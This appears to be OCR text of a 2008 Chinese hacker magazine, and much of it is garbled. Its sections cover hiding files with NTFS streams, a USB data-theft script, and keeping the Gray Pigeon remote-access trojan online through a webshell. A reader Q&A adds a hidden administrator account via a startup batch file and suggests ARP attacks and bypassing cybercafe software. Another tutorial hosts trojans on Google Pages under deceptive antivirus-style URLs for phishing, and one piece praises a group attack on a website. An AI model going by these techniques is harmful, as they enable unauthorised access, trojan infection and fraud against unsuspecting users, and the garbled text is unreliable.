如果文件夹名称是空白的，主要将目录名称设为空白，且无法通过正常方式访问，可以用“md \ .”来建立一个空白名字的文件夹。由于 Windows 会自动去除末尾空白，因此可使用命令和特殊方式创建空白目录。

例如：若把目录名改为 256 个字符长度以上的文件名，在 Windows 中将无法打开；但在命令行中可通过“ren”或“md”方式建立。删除这类目录时，需先删除其内部文件，再删除该目录。

6）如果磁盘格式是 NTFS 格式的话，还可以使用 ADS 和 CACLS 命令来隐藏文件。

ADS 是“交换数据流”（alternate data streams）的简称，是 NTFS 文件系统的内置特征，它是为了和 NTFS 兼容而设计的。由于其可以隐藏在各种文件夹中而几乎无法用系统功能直接检测，因此，我们可以用它来隐藏我们的文件。要创建一个 ADS 十分简单，比如要创建一个和 BBS.TXT 关联的 ADS，只要直接在命令行下输入：

`echo this is a ads > bbs.txt:hidden.txt`

前面的例子已经可以把文件藏在 ADS 中，那么怎么执行呢？也很容易，一个命令就可以了，如：

`type bbs.txt:hidden.txt`

这样就能将 ADS 中的内容输出到屏幕上。

如果把要加密的文件隐藏在系统无法删除的文件夹中，如 Windows 文件夹中，那样的话别人几乎不会发现。详细内容大家可以到网上搜索一下。

使用 cacls 命令要求磁盘是 NTFS 格式的。cacls 可以设定只有特定账号才能访问文件，而其他账号是无法访问的，可以新建一个账号用于专门访问你加密的文件夹。具体的命令如下：`cacls TEMP /G ZJJ:F`，那么前期就只需要先通过 `TEMP` 文件夹了。要恢复之前的文件，再用命令 `cacls TEMP /G 当前用户名:F` 修改一下就可以了，这个方法对于一般人是……


### 实例研究

下面就以《极品私人密盘2007》这个软件为例子，来说明一下具体加密解密的方法。这款软件只有一个绿色文件，使用方便，但又具有较强的加密文件夹功能，对于一般电脑使用者来说，是既简单又方便又安全的文件加密工具。


例如可以通过“新建密盘”“高级设置”等里面的“硬盘加密”功能来新建密盘，然后我们就将“新建密盘”相关的功能先进行设置，然后对其中的新建密盘做一个文件夹。我们在新建的密盘中，就会显示“Z”，这个容量是放在 G 盘上的。打开密盘，放文件进去，比如 z.txt。接下来再创建文件夹，如果手动打开访问，我们就不太容易找到它，因为这个盘符被设置成了“隐藏盘”。

811497611--114778920086--500 文件夹里面还新建了一个 mp.\、的文件夹，这样程序就不能够被轻易访问与删除了。虽然可以用 copy 把文件从原来的文件夹中取出来，但是这样做不方便，我们要求达到的是像正常打开程序一样的效果，也就是直接打开加密文件夹。具体怎么实现呢？在对源程序经过一段时间的研究后，发现是利用映射虚拟磁盘的方法来打开。在讲解之前我们先来看一下一个命令——Subst。

Subst.exe 是系统自带的，它可以把一个目录映射为虚拟的磁盘。如果是 Windows 2K/XP，则应该在 \Windows\System32。使用方法是：Subst [Drive1:] [Drive2:\Path]，其中“Drive1”是指定替代文件的驱动器号，“Drive2:\Path”是指定所要替代的文件夹及其路径。比如：`subst a: d:\mydisk` 命令，即是把 `d:\mydisk` 文件夹虚拟成 A 驱动器。要删除映射的话，可在 DOS 方式执行 `Subst Drive: /D`。具体实现方法如下：

- 1. 在命令行下输入以下命令：`subst b: "G:\recycle\5-1-5-21-1060284298-114778920086-500\com1.{21ec2020-3aea-1069-a2dd-08002b30309d}\data\"`
- 2. 运行命令：`start b:\explorer b:`
- 3. 取消映射：`subst b: /D`
- 4. 删除文件夹命令为：`rd /s /q \\?\盘符:\recycle`（注意，这里对这个命令不要加文件夹名称，使用上面系统中找到的 UNC 路径名称，否则会出错）

## U 盘窃密之 VBS 高级版本

Sm@key\NEW\N!K\SR

从本文您可以学到：

- 1、了解 U 盘窃密程序的运行流程
- 2、修补现有窃密程序的不足

VBS 是微软内嵌的系统脚本语言，但它只有在 Windows 2000 以上才有，它可以实现多种功能，有兴趣的朋友可以到“百度”那里去搜索一下具体语法，这里只是抛砖引玉，只是思路。在此前我们已经看到过一些相关文章，但是还存在很多的问题，例如：文件不方便存取，而且如果手工操作又很占空间，还要定时删除。这项貌似很符合我们小菜的风格——能把黑客的常用工具带来，能一次完成的绝不拖泥带水。为了照顾新手，我尽可能使用这些函数来说明思路。言归正传，我们将从开始一点点明白这一事情的定义，流程图如图 1 所示。


用到的 VBS 内置组件：FilesystemObject（.fso），用于文件管理、创建、删除、复制文件；Shell，用于执行命令等。具体代码及注释如下：

```vbscript
on error resume next
set cmd=createobject("wscript.shell")
...（代码示意，内容较多且因图片清晰度不足无法完整辨认）
```

## 总结

文件/文件夹加密无论用什么方法，一般在命令行下都可以用 dir、copy、rd 等命令访问与删除。其次，这可以借助于 IceSword 等工具的文件浏览来帮助查看。但是，还是可以查看到文件夹内容。对镜像文件加密后再用 IceSword，结果呢？还是因为内容到系统中存在错误而失败。最为直接解决的方法之一是，先在文件加密所在的机器中打开一个 Linux 系统，进入 Linux 系统后是无法再对加密的文件进行查看的。如果系统被还原了，可以把它们作为一个系统文件，再用 WinRAR 设置压缩包密码，破解密码的方式如图 1 所示。


（作者提到 IceSword 是“窥视者”或“非安全”2007 之类表述，原文较模糊）

编辑点评：

本文的写作上，虽然断句内容较乱，但在整个全书的结构上来说，看来作者的出发点还是有一定思路的，我们在学习过程中先把握住思路，再去看具体的代码和实现方法。

```vbscript
set fso=createobject("scripting.filesystemobject")
...（右栏代码较多，图片清晰度不足无法完整辨认）
```

## 飞鸽

### VB 制作鸽子 IP 变换程序

给大家提供一款名为“管管”的加密工具！大家还可以做成 AutoRun 文件让其它设备传播。

## 写在最后

最后给大家个建议，对于编程语言不需要系统性的学习并坚持下去，计算机的语言大同小异。如果还有什么不懂，就到 nohack 论坛，我的 ID 是 Simplman。

（作者提到的 forum 会有很多 VB 资讯，版本的代码及“管管”章节也在连载中）

> 编辑点评：
>
> U 盘寄管的程序已经见过多个，但上传至网络的还是看到的第一个。可能因为用这种影响，成功几率会比较小，不过这只是改进版，等等下一个。

从本文您可以学到：

- 1. 了解鸽子上线的原理
- 2. 突破 FTP 上线的限制

一开始学习安全知识的小黑越来越多，问题也越来越多。很多刚入门的小菜说自己的鸽子不能上线。经调查发现，他们都用若干 FTP 空间来传 IP 文件，但现在稳定、免费、没广告的 FTP 空间可以说是稀有物品，所以寻求鸽子的“迷路”办法。


有一点 ASP 基础的人应该看得懂吧？然后通过 Web 方式将文件输出给客户端。联系点：通过设计代码，我们如何获取到好的 IP 信息？采集后存放到提交的方式，也就是 `ip=XXX` 的方式提交。这些需要一个 Microsoft Internet Controls 的部件来打开网站，在左边的部件里应选择“部件”，找到 Microsoft Internet Controls，然后加入该部件。可以控制图片时，最后写入代码。具体思路如下：

```asp
port=request("port")
Set fso = Server.CreateObject("Scripting.FileSystemObject")
Set fs = request.ServerVariables("ALL_PHYSICAL_PATH")
Set s = fso.CreateTextFile("ip.txt")
fs.WriteLine "http://" & ip & "@" & port & "/wwwroot/"
fso.Close
<%
```


### 设计

我们先设计 ASP，首先先有了端口和 IP 这 2 个东西，所以得接收 2 个信息。具体代码及过程如下：

```asp
<%
On Error Resume Next
' 省略代码
%>
```

好用的 FTP 现在已经绝迹了，WEBSHELL 用在此处似乎是一个不错的选择，作者的想法很不错！

## ASP 解密游戏编写与通关策略（一）

从本文你可以学到：

学习黑客解密游戏的破解与编写

现在许多黑客技术网站都有自己的 ASP 解密游戏，但据我了解的情况，他们的游戏一般都只有一轮，在十关以内。我利用一点时间写了全套的 ASP 解密游戏，从第三关中结合了一些 VB 知识，下面我就具体地谈谈 ASP 解密游戏的编写和通关。考虑到一些朋友的基础，前几关游戏设计得十分简单。

### 第一关

第一关利用了 HTML 中的注释语句，直接提示第二关的地址。格式如下：`<!-- 第二关的地址是 page2.html 再见！ -->`。这个注释语句不会在页面上显示出来，这是一个静态 HTML 页面，只需要在页面里添加一个表单提交密码，这样会显得比较逼真。当然，也可以再添加一段脚本判断密码并做出提示。下面的代码对密码进行了不太充分的判断，如果不是数字，则提示“你输入的不是数字密码”，如果是数字，则提示“sorry，密码错误！！”。我使用了 VBS，JS 同样可以实现。具体代码如下：

```html
<script language="vbscript">
<!--
sub button1_onclick
  dim frm
  set frm=document.form1
  if isnumeric(frm.text1.value) then
    if frm.text1.value>1 then
      msgbox "sorry，密码错误！！"
    end if
  else
    msgbox "你输入的不是数字密码"
  end if
end sub
-->
</script>
<form name=form1 method=post>
<center>
<h4>网页在我编辑第二关<h4>
请输入通关密码：
<input type=text name=text1>
<input type=button name=button1 value="提交">
</form>
<!-- 第二关的地址是 page2.html 再见！ -->
```

运行结果如图 1 所示。这关十分简单，直接右键单击网页查看源文件就可以过关了。

### 第二关

第二关与第一关类似，也是静态的，只不过将注释改成了接收密码的页面。首先新建一个 `level2.asp`，输入如下代码：

```asp
<%
dim pass
pass=request.form("pass") ' 将接收到的密码赋给 pass
if pass="hacker" then
  response.redirect("level3.html") ' 如果接收到的密码是 hacker 就直接转到 level3.html
else
  response.write("<script>alert('对不起，你输入了错误的密码，请核对！')")
end if
%>
```

# CRACKER

## 86 的惊喜寄语：

转眼进入四月，一场罕见的雪灾已经过去，由于雪灾导致的价格猛涨也已经回落。滞留在火车站的朋友经历的那场雪灾阴霾逐渐远去，这些大多只是一件可以忽略不计的事情。直到 4 月 3 日的一天清晨，终究还是有一些事使我觉得难以言说。至于媒体广场上的棉衣也终于可以脱下了，在这个相对幸福的一年，偶然也进入了所谓的“冬日”吗？

## 吾日旧新闻

- 1.《花·D-4》（DraGon FORe，简称：D Force，缩写：[D.4s]），是由龙族成立的一个自发性的中国破解组织，成立于 2004.3.11，旨在研究软件加密技术。他们近日在龙族成立四周年之际，创办了电子杂志《龙·魂》，目录包括 D.4s 动态、安全在线、时尚类图、硬件 DIY、娱乐共享等。四年之内，龙族由一个破解论坛发展成为了今天拥有 3 万多会员的论坛，除了破解版块之外，还有诸多硬件、应用技术交流、网络安全等多方面的综合性深度论坛。破解版块交流地址非常少，对于学习破解，也不失为一个好去处。
- 2.《看雪论坛精华 9》发布

引用原话：

- 1. 看雪论坛精华 9 收集了看雪软件安全论坛 2007.1.1 - 2007.12.31 期间的精华内容，共 700 余篇文章。
- 2. 本稿件手册收录的文章以看雪论坛原创文章为主，转载性质的文章除非特别优秀，一般不收录。《Crack Me》《Reverse Me》版块的文章本次未收录，将来专门出专刊。另外，一些工具调用性的程序和技术类教程也有所收集。
- 3. 由于论坛内稿件篇数较多，整理过程中可能有遗漏，请到论坛版规区报告，文章如优秀将会刊到论坛版块的 10 中去。


- 4. 感谢发帖的那些作者们，是他们知识共享的精神才让论坛精华手册得以诞生！
- 5. 感谢那些答疑解惑的朋友们，正是你们的参与，才让论坛有了交流的气氛。
- 6. 特别感谢看雪软件安全论坛各位版主在 2006 年的辛勤工作！
- 7. 特别感谢本稿件的制作人员 CCDebugger、Ivanov、rjjj、linhanshi、北极星2003、蓝蓝、zwnrom、眯眯糖、逍遥风、Aker、bithaia、hawking、elance、forgot、Bughoho、linuxer 等辛勤付出！
- 8. 特别感谢看雪本次精华集制作 Logo！另外也十分感谢看雪论坛的 buj888、ygpeng、高亮、phoenix[ne]、yzengr 等为论坛精华 9 所设计的 Logo，虽然没有采用，但我们尊敬他们的支持！
- 9. 本稿件集中的一些实例，如果某些杀毒软件报警或文件损坏，可能会被误报为病毒或木马。
- 10. 其他各类事件、所有程序将仅附着于看雪课堂以及该版块相关的论坛进行说明，http://bbs.pediy.com/showthread.php?t=59391

## 每周资源

密笈精华

一些基础


教程的集合，经过筛选之后，最适合各位入门的朋友。即使你对于破解兴趣不大，也不失为一本值得收藏的电子书教程。当初我找这个电子教程也找了很久，因为电子书里面的那个教程已经不存在了，直到有一天，在不经意间发现这本教程，不敢独享，因此拿出来与大家分享、交流、学习。希望大家共同进步。


## 破解之常见破解术语简单介绍 3

从本文你可以学习到：

常见破解术语简单介绍

### CRC 检查

CRC，中文名称为循环冗余校验，CRC 用于密码学一类算法，常用于数据校验，一般会用来检测程序是否被恶意或非法篡改，以达到防破解的目的。比如有些程序脱壳后无法正常运行起来，很有可能使用了这个校验。

### test

test 是一个测试指令，反汇编程序后，我们经常可以看到此指令。

### Loader

其实就是一个内存补丁，Inline Loader 是一个很流行的打补丁工具，如果制作 loader 的话，推荐你使用这个工具。

### DriverStudio

DriverStudio 3.2 是为少量最终的驱动开发工具套件，## 科普杂志·黑客手册 2008.04-[CRACKER]

包含测试工具 SoftICE。SoftICE 支持单机、用串行链接连接的双机，或是通过 TCP/IP 连接的远程计算机上的核心级和用户级调试。它还是一个双机的系统级调试器，提供了多窗口、可配置的图形化用户界面，来帮助开发人员调试核心级驱动程序、应用程序，甚至整个操作系统。

## EPE

EPE 全称为 EncryptPE，这是国内人物老王出品的一个加壳工具，也就是大家常说的“老王壳”。由于老王也是圈内人，所以对于此壳的脱壳方法还是很少公开的，而且随着技术的日益进步，老王壳的脱壳也逐渐退步，大有“脱壳没救”的趋势，所以有些加壳软件对该壳只能做到识别出一些有用的信息。

## PEP

PEP 全称为 Private EXE Protector，是国外的一个加壳工具，它能有效地为软件开发人员提供源代码保护，防止分析、修改和破解软件保护措施。PEP 使用多变异引擎（防止被工具检测和非法解压）、LZMA 压缩算法、高级反调试器/动态跟踪、输入表隐藏、入口点获取字节、窃取资源脚本（是以前未脱壳较多的保护工具）。

## CE 指的什么东西

全称为 Cheat Engine，是一款游戏修改工具，和金山游侠一样，不过功能更强大。它的优点多不胜数，当然单独从搜索游戏里的数值来说，它并不比其他同类软件强多少，但它不仅是个游戏修改工具，它还有其他游戏修改软件所没有的一些特点。例如：它有强大的反汇编功能，这个是别的游戏工具中几乎没有的；还有，至少它当前能用于外挂制作工具，可以直接自由生成外挂。

## antispy

中文意思为“反监视”，它的反监视能力是非常强大的。它是一个内部注册表在程序中使用 SDK 的工具，所以注册信息都是自动生成完成的。

## ARJ Archive *

ARJ 是早期的压缩软件名称，但是我们使用 PEiD 扫描的时候会经常看到 ARJ Archive *。对于这种情况，要么没壳，要么就是密码壳。我自己也经常被困着，能简单解决一点儿的办法就是把你的 userdb.txt 该项删除，还是很适合熟悉各种壳的人使用。

## ring0 和 ring3

Intel 的 CPU 将特权级别分为 4 个级别：Ring0、Ring1、Ring2、Ring3。Windows 仅使用其中的两个级别 Ring0 和 Ring3。Ring0 只给操作系统用，Ring3 运行着应用程序。所谓高权限程序可以使用 Ring0 来操作内核，Ring0 的程序可以直接和硬件打交道，其危险性也是有的；而运行在 Ring0 的程序可以调用普通程序不能调用的函数。Ring0 中可以做任何事情，而用户程序一般都是在 Ring3，受系统的限制。

## bug

所谓 bug，是指电脑系统的硬件、系统软件（如操作系统）或应用软件（如文字处理软件）出错。硬件的错误有两个原因：一是设计错误，二是硬件部件老化失效等。软件的 bug 是软件作者没有完全考虑到的设计错误，它会导致用户执行“非法操作”。一般来说，软件作者在编写软件的时候，是不会让用户执行非法操作的。如果软件出现 bug，偶尔有可能会引起 shellcode，从而被黑客利用。

## 消息断点

消息断点也可以认为是一个 API 断点。如果在注册失败时，程序会使用一个消息框来提示你注册失败，那么一般来说就可以下 bp MessageBoxA(W) 这样的断点了。所以很多时候，在失败时有提示的消息框，往往会成为破解的一个致命漏洞。

## 硬件断点

在 OD 中，你可以下无数个 F2 断点，但是硬件断点却只能下四个，因为它是使用了四个调试寄存器（DR0、DR1、DR2、DR3）来设置断点。硬件断点不会去修改程序地址中的代码写入 INT3，这样就不干扰程序的自校验了。硬件断点除了可以在地址上设置外，还可以在内存上设置内存硬件断点，常见命令有 HE、HW、HR、HD。

## JO

这是一个条件转移指令，表示地址跳转，当 OF=1 时就会执行。它是根据溢出标志位 OF 进行转移的指令。计算机所存储的数据的大小都是有规律的，以字节数据为例，156+153=309>255（无符号数据），这时一个字节就存不下了，就会溢出，这在 VB 程序中比较常见。

## IR

IR 是 Import REConstructor 的缩写，最新的版本是 1.7。但是因为这个工具使用率非常之高，所以很多高手都对此进行了某些修改，使之更符合我们的需求。一般来说，IR 可以自动修复导入表，因为在脱壳完后的程序可能无法正常运行，需要修复输入表。

## c32

全称是 C32Asm，是国内牛人 pl621 的作品，是一个静态反汇编工具。它能快速静态反汇编 PE 格式文件（Exe、Dll 等）；提供文件 Hex 编辑功能，提供内存 Dump、内存编辑、PE 文件 Dump、PE 内存 ImageSize 修正等多种实用功能；提供汇编语句转字节与反汇编功能，提供对二进制文件的分析显示功能等等。

## IL

全称是 Intermediate Language，中文为中间语言。所有 .NET PE 的语言都是先被编译成中间语言，.NET 程序有一个系统的工具，用来执行、反编译和编译程序的 IL 代码，包括与 C# 相关的程序。在 C# 程序中，通过查看相应的 IL 代码，可以知道程序结构及其类、方法、变量、引用等信息，有些情况下可帮助我们修改程序中的数据并去掉一些不必要的功能。所以在 IL 语言中，若将代码还原的话会比原来的代码略低些，其实，大家可以看看相关文档。

## plugin

就是插件的意思。现在很多软件都会使用插件来使其功能更加强大，它是扩展主程序功能的一种机制，一般使用 DLL 来实现。plugin 可以认为是为未知功能预留接口，Plug-in 是 DLL（动态链接库）的一种形式。

## p-code

全称是 pseudo-code，就是伪代码的意思。在 VB 编译中，有两种编译方式，一种是 Native Code（本地代码），另一种就是 p-code。p-code 的整个代码直接交给 CPU 处理，它是绝对看不懂的，所以一定要 MSVBVM60.DLL 来翻译。

## Inline Patch

就是在程序里面直接打上补丁，即使程序被加了壳，也可以使用这种技术。这种技术能够实现不脱壳也破解程序，是一种现在非常流行的破解补丁技术。

## 静态脱壳

脱壳机从工作原理上分两种：动态和静态。动态脱壳机就是以调试方式让壳运行起来，然后在关键处中断，修复输入表并 dump，或许像用 OD 手动脱壳一样，只是动态脱壳机自动完成了这些操作。静态脱壳机则是直接读取文件，找出加密的数据，然后解密它。

## 句柄

句柄其实就是一个 long 变量，可以理解为程序中描述某一个对象的唯一标识。换句话说，句柄是一种内部代码，通过它能引用由系统控制的特殊元素，如窗口、位图、图标、内存块、光标、字体、菜单等等。

## 堆栈

堆栈是一个经常使用的抽象数据类型，它具有一个特性，就是最后一个放入堆栈中的物体总是被最先拿出来。简单可以理解为先进后出，后进先出。经常可以看到的是 Push 和 Pop，有 Push 就肯定有 Pop，它们是成对出现的。

## JMP

汇编跳转，字面上就是必须跳转的意思。它可以将控制无条件地转移到程序中的另一位置。这条指令有三种形式：一种直接跳转和两种间接跳转。指令形式为：jmp label；jmp (reg32)；jmp (mem32)。这三种形式中，直接跳转指令是最常见的形式，如前面说的第一个就是了。

编辑点评：之前发表了两篇和这项相关的文章，读者们评价中反应良好，终于见到了第三篇，这也让笔者的坏心情有了不少安慰。

三、使用你建立的用户登录，如果欢迎界面前没有你的用户，按 Ctrl+Alt+双击 Del 键直接输入，登录后使用 lc5 或者看版本工具进行破解。

其实对于你的具体情况，我测试过网络上流传的一些方法都没有成功，具体可能是相关服务没有开启，所以使用脚本添加到启动项后也就没有任何效果，这显然是安全有效的。当然你可以测试下本地提权工具，前提是有相关漏洞存在。

原文链接：http://www.nohack.cn/tbs/thread-70476-1-1.html

Q：不知道为什么，我现在打开了“灰鸽子”，不是服务端打不开，就是配置都打不开。一个月前用的时候还是好好的……是不是因为现在的我是如今子的 2008 版本了？

A：按照你的情况，是属于可以物理接触电脑，但是没有管理员权限。首先确定 CMOS 没有设置密码，进入 BIOS 设置将引导设备改为光驱或者 U 盘启动 WINPE，可以使用其他具备修改管理员密码的软件。如果 CMOS 设置了密码，我们也不至于给主板电池放电或跳线，这里介绍一个最简单的方法，既不会修改管理员密码，也能做到成功破解。

```bat
net user admin /add
net localgroup administrators admin /add
```

将上述的批处理文件保存为 admin.bat。

二、将此批处理文件作为 Windows 的开机启动脚本。

- 1、在“运行”里输入“gpedit.msc”。
- 2、定位到“计算机配置”→“Windows 设置”→“脚本（启动/关机）”，双击右边窗口的“启动”，在其中添加完成的 admin.bat；
- 3、重新启动计算机，系统便有了一个账户为 admin、密码为空的管理员了。

Q：在通过 NAT 服务器上网的情况下，内网的电脑怎样连到外网的和内网的 QQ 好友的 IP 呢？能不能 IP ping 他们？如果知道另外一个局域网里的一个电脑的内网 IP 和公网 IP，我能怎样攻击他呢？

A：要查看 QQ 好友 IP，不太依赖防火墙的网络环境，最简单的方法是使用破解器或外挂类的 QQ 程序，例如珊瑚虫版或者最新版，现在已经有了发送图片主动探测来获取 IP 和服务支持的功能。至于 ping 命令，只要双方权限没有限制，ping 通的情况也基本没有什么可用信息。至于你说已经对网络有了病毒扩散，采用 ping 的情况就不一定了。如果知道对方使用的 IP，那本身是有直接性的，也可以采用 ARP 攻击或者扫描漏洞等很容易得手的手段。

## 把所有分区依照此方法去掉引导 autorun 感染的病毒后，再利用杀毒软件更新到最新版本进行查杀。

Q：为什么灰鸽子在网吧不能上线呢？我家里就 OK，在网吧就不行了，哪位高手解答？

A：在家是公网环境，但是网吧是内网，就像你把网吧的公网 IP 写入到服务器端的连接地址中，由于本身环境，无法实现反控连接。首先你可以试试进入网吧的路由器管理，进行端口映射。但是进入网吧的路由器管理有难度。当然你也可以试试用溢出的 app 打入网吧的服务器端控制，利用网吧管理软件实现端口转发。

我个人认为，在网吧环境下，最好是有一个可以做转发的肉鸡，你可以直接登录肉鸡进行反弹，利用肉鸡来制作或者进行链接转发。

Q：今天刚重新做的系统，装上杀毒软件后加不了“灰鸽子”，运行主程序，一闪而过，这是怎么回事？麻烦大家帮忙，谢谢！

A：显而易见是带毒还原。相信 AV 多次扫描造成的 IE、文件关联持续异常，已经导致你中了毒。关键常见于：重装系统后，首先从“我的电脑”的地址栏进入各盘分区，然后在文件夹选项中打开“显示所有文件”和去掉“隐藏系统文件”的勾，这个时候就会发现 autorun.inf 和搭配的恶意程序。

## 29号情报

## 黑·菜

城市 / 重庆市万盛区  
论坛 ID / HACKER 天使  
邮件 / lovelinger_520@163.com

→对于杂志内容，你有什么建议？  
对于“新闻练兵营”和“西藏无战事”，我个人是觉得很不错的，尤其是“新闻练兵营”，我非常喜欢。…

Q：我用 winhex 破解 pubwin4，在 welcome_ty 附近只有我登录的用户名密码，然后下去显示有 38 78 5C DB AC 59 CD 55 A3 A4 3C 3B F6 5F 46。但是我搜索出来的 80 51 00 8 并没有找到，肯定不是密码啊，请问在欢迎台的后面下一步，谢啦！

A：现在很少有网吧用 pubwin4 了。其实不用那么麻烦，因为在 welcome_ty 找到密码很难，在 pubwin4 的登录点后面用户名密码失败之后不能登录。重新备份一个 pubwin4 破解黑洞，直接替换原来的 pubwin4，只需输入完整密码进行管理，然后利用黑洞号密码可以轻松查看管理密码而已。

原文链接：http://www.nohack.cn/bbs/thread-74334-1-1.html

→对于杂志内容，你有什么建议？  
希望“黑手”在未来能够普及基础知识，例如编程中的语法、语句，各种程序运行机制、规则等。另外，“黑手”的文章很全面。

→对于杂志内容，你有什么建议？  
我是一个正在上高中等的学生，是个很纯情的小鸟（内心自由，理想抱着个黑客梦），自由、共享。我对《黑客手册》的科普指导非常兴奋，自己现在一点知识都没有积累，希望编辑将它做成大大的指南。

→对于杂志内容，你有什么建议？  
希望《黑手》在未来能够持续推出新知识，例如编程中的语法、语句，各种程序运行机制、规则等。另外，“黑手”的文章很全面。

## 黑客手册

## 非安全

## 黑客手册

安全手册

无名书编号  
No. 268.05  
107L

## 黑域传奇：黑客编年史

我们是一个仍然没有忘却历史伤痛的国家，民族意识的空前崛起，网络无国界的文化冲撞……  
黑客、时间、游戏到即时通讯技术大力的信息与传播、手枪、盗窃……

## 冷眼：Linux 请走下神坛

## 解决方案：XP SP3 系统整合及利用 Sandboxie 构建系统安全方案

### 提权：php 注入拿 webshell 到 linux 系统权限

## 新洞

ISBN 978-7-900452-36-8

投诉 Mail：jhcdak@21cn.com

## 中国黑客威胁论

在互联网大行其道的今天，对中国军事威胁的渲染已经从传统战场上转移到了虚拟空间中。近年来，“中国黑客威胁”已成为美国媒体和一些官方或非官方的主要“罪名”之一。在美国媒体的带动下，美国、德国、法国等媒体更是不厌其烦地全力声称中国的网络黑客时常攻击军事、金融和电信等领域，甚至美国一些智囊协会的网络部门也乐此不疲地进行炒作。其实，事情并非如此。

“黑客威胁”这种高科技武器的存在最早起于欧美互联网上出现的互联网连接性。世界上一些网络黑客组织是美军网络战联合功能结构的组成部分，比如“黑客空间”（军方、五角大楼、国防等机构活动的安全联系）。

美国军方和某些政府机构利用网络民意和信息战的结合进行网络攻防，甚至把一些网络行动包装成“黑客攻击”。这种网络攻防宣传本质上是心理战和舆论战的一部分。

> 独家新闻
>
> 秋天还没到，香樟却倒了起来！季节交替之时正是“病毒”肆虐猖獗的时候，刚从前方的雪灾中回来，网上热气腾腾的新一轮网络攻击又起。……

## 新国视评团

中国，加油！

2008 年，注定是中国不平凡的一年，奥运盛事牵动了多少国人的激动梦想……

不相识，未曾谋面，但是我们都是中国人，有着共同的祖国母亲。当我们的祖国受到这样委屈的时候，我们为何不站出来呢？我们没有基地，没有网络，网络是我们生活的地方。为了中国人的尊严，我们全力用自己的双手来维护。我们会努力，用一切来捍卫我们的尊严！

某日凌晨 8 点整，各个版主开始攻击 XXX 网站。不久，XXX 官方网站的主服务器遭到了大范围的攻击，然而大家又转而攻击了另一个不痛不痒的网页网站，并持续攻击了十几个小时。许多网友在互联网上的留言也很多，页面上的骂声也不少。

## 漏洞公告牌

| 项目 | 内容 |
|---|---|
| 受影响系统 | Mozilla Firefox < 2.0.0.13 |
| 受影响系统 | Mozilla Thunderbird < 2.0.0.13 |
| 受影响系统 | Mozilla SeaMonkey < 1.1.9 |
| 描述 | Firefox 是一款开放源代码的 Web 浏览器，其所使用的 JavaScript 引擎在执行 JavaScript 垃圾收集期间可能会触发内存破坏漏洞 |

## 让 Google 帮我们“牧马”

如果用户受骗访问了带有恶意 JavaScript 的网页的话，就可以触发这个漏洞，但该漏洞无法被可靠地利用，只能导致拒绝服务类的稳定性问题。由于代码共享的关系，这个漏洞也影响 SeaMonkey。

厂商补丁：  
目前厂商已经发布了升级补丁以修复这个安全问题，请到它的主页下载： http://www.mozilla.org/

RedHat 已经为此发布了安全公告（RHSA-2008:0222-02 / RHSA-2008:0223-02）以及相应补丁：  
RHSA-2008:0222-02, Critical, firefox security update  
链接：https://www.redhat.com/security/errata/RHSA-2008-0222.html  
RHSA-2008:0223-02, Critical, seamonkey security update  
链接：https://www.redhat.com/security/errata/RHSA-2008-0223.html

## Oracle 2008 年 4 月更新修复多个安全漏洞

- Oracle Application Server 9.0.4.3
- Oracle Application Server 10.1.3.3.0
- Oracle Application Server 10.1.3.1.0
- Oracle Application Server 10.1.2.2.0
- Oracle Application Server 10.1.2.0.2
- Oracle Application Server 10.1.2.0.1
- Oracle E-Business Suite 12.0.4
- Oracle E-Business Suite 11.5.10.2
- Oracle Collaboration Suite 10.1.2
- Oracle Database 9.2.0.8
- Oracle Database 9.2.0.8.5
- Oracle Database 11.1.0.6
- Oracle Database 10.2.0.3
- Oracle Database 10.2.0.2
- Oracle Database 10.1.0.5
- Oracle PeopleSoft Enterprise PeopleTools 8.49.09
- Oracle PeopleSoft Enterprise PeopleTools 8.48.16
- Oracle PeopleSoft Enterprise PeopleTools 8.22.19
- Oracle PeopleSoft Enterprise HCM 9.0
- Oracle PeopleSoft Enterprise HCM 8.9
- Oracle PeopleSoft Enterprise HCM 8.8 SP1
- Oracle Siebel SimBuilder 7.8.5
- Oracle Siebel SimBuilder 7.8.2

描述：Oracle Database 是一款商业性质的大型数据库，某次发布的 2008 年 4 月紧急修复了多个漏洞。这些漏洞影响 Oracle 产品的多个安全组件，可导致本地和远程的威胁。其中一些漏洞可能需要特权级别的授权，但也有些不需要任何权限，最严重的漏洞可能导致完全入侵整套数据库系统。

目前已知的漏洞包括：

- 没有正确地过滤对 SDO_GEOM、SDO_IDX 和 SDO_UTIL 软件包中某些参数的输入值在 SQL 查询中使用，这允许远程攻击者执行 SQL 注入攻击。
- DBMS_STATS_INTERNAL 软件包将 OUTLN 口令重置为默认值，这允许用户在创建具体视图期间获得 DBA 权限。

厂商补丁：  
Oracle 已经发布相应补丁：  
cpuapr2008, Oracle Critical Patch Update Advisory - April 2008  
链接：http://www.oracle.com/technology/deploy/security/critical-patch-updates/cpuapr2008.html?_template=/0

从本文你可以学到：

- 怎么利用大站进行钓鱼欺骗

众所周知，把木马给人家，成功率的关键在于你的木马地址的迷惑性强不强。Google 大叔很厚道，给了我们一点方便。

前景：

一、最近在网上闲逛时发现了这个地址：pages.google.com，可以用你的 gmail 账号来登录。没有的去 mail.google.com 注册一个。我先登录一下，登录了还不行，还要创建一个 pages，然后把页面底部的设置框选住，再点下面的按钮就可以了（如图 1），之后进入图 2 的界面（这个是用来编辑个人主页的）。

再点“<<back to Site Manager”就回到如图 3 所示了（看表象地址，是不是……）。这时你看到右边的“[upload]”，点这个就会出现“浏览”按钮，这时你就可以上传文件了，并且单个文件最大为 100MB（不过空间的最大容量也是 100MB，嘿嘿，别看大，速度还挺快的，只是一次只能上传一个文件，而且没有文件类型限制。还不怕吧！你所上传的文件的网址格式为：http://你的帐号.googlepages.com/你上传文件的名字，也就是后缀名也要。如：http://news.360safe.googlepages.com/360safe.htm（news.360safe 是我注册的 gmail 账号）

## 二、Google 论坛

（http://groups.google.com/?hl=zh-CN）。如图 5 所示。点击左边的“创建论坛”按钮来创建一个论坛，若要登录，则用刚才注册的账号。之后进入创建页面，填的东西不多，大家可按提示来填。论坛的网页地址是：`http://groups.google.com/group/`你创建好的论坛名称，我的是：`http://groups.google.com/group/news-360safe`，因此要取个好名字。同样它也可上传文件且可以直接打开 HTML 文件，文件地址和上面讲的是半斤八两（如：`http://news-360safe.googlegroups.com/web/360safe.html?hl=zh-CN`），不说也罢。它还有更细的功能，登录之后如图 6 所示。点击左边的“网页添加成员”按钮后，之后如图 7，完成之后它就问你是否发帖，帖的内容中有该网页的地址，如：`http://groups.google.com/group/news-360safe/web/?hl=zh-CN`，360safe 为网页的名称。


